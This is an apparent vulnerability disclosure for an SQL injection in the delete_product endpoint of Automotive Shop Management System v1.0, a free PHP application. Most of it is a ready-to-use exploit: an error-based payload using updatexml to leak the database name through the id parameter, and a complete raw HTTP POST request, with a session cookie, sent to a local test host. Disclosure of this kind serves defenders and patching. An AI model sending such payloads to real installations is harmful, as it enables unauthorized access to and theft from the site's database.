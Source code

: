 # Automotive Shop Management System v1.0 has SQL injection

vendors: https://www.sourcecodester.com/php/15312/automotive-shop-management-system-phpoop-free-source-code.html

Date: 2022-05-07

Vulnerability File: /asms/classes/Master.php?f=delete_product

Vulnerability location: /asms/classes/Master.php?f=delete_product, id

[+] Payload: id=5' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

Tested on Windows 10, XAMPP

```
POST /asms/classes/Master.php?f=delete_product HTTP/1.1
Host: 192.168.2.106
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 65
Origin: http://192.168.2.106
Connection: keep-alive
Referer: http://192.168.2.106/asms/admin/?page=products
Cookie: PHPSESSID=0389fublnj7ggho8q04fuvfaqe

id=5' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![](https://github.com/mikeccltt/automotive/blob/main/automotive-shop-management-system/sql.gif?raw=true)

